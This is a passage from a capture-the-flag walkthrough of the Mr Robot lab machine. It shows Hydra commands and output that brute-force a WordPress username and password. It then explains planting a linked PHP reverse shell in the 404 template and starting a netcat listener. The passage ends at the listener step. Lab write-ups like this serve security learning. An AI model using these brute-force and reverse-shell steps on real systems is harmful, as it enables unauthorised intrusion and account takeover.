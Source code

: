 ![wordpress_login](/images/mrRobot/wordpress_login.png)

Trying ```admin``` as the username we get an invalid username, so let us enumerate the username to find a user for the site.
The site probably doesn't have any rate limiting so we can bruteforce the correct username using a tool like burp intruder or hydra.
Since I only have the community version of burp it would probably be too slow to find the username, so Hydra it is.

Here is a good explanation of using Hydra for [bruteforcing website](https://theblackthreat.medium.com/brute-force-login-using-hydra-4ad7ddf863f6).

```bash
> hydra -L new_list.txt -p password 10.10.103.189 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30 -vV

[DATA] attacking http-post-form://10.10.103.189:80/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 10.10.103.189 - login "Elliot" - pass "password" - 1 of 1 [child 0] (0/0)
[80][http-post-form] host: 10.10.103.189   login: Elliot   password: password
```
From our hydra enumeration, we find the user ```Elliot``` after about going through 5000 lines of the wordlist.
Now that we have the username, lets repeat the same process using our wordlist on the password field.

```bash
> hydra -l Elliot -P new_list.txt 10.10.103.189 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you" -t 30 -vV
```

After going through about 5000 lines again we get a hit on the password, i.e ```ER28–0652```.

Now we login to the site using the wordpress credentials we enumerated.

> Our goal after getting access to the wordpress is to establish a shell so that we can access the system and obtain the keys. One way to gain a reverse shell is to change the php code of the 404.php page and insert code that will connect to our system.

Here is the [php shell code](https://github.com/jbarcia/Web-Shells/blob/master/laudanum/wordpress/templates/php-reverse-shell.php).

Go to ```appearance>editor>404 Template``` and replace the content of the 404 page with the shell code.

A snippet of what the ```404.php``` should look like:

![404php](/images/mrRobot/404php.png)

Now update the 404.php page and start a netcat listener on your host system to wait for the connection from the shell.

```bash
> nc -lvnp 1337
listening on 0.0.0.0 1337
```
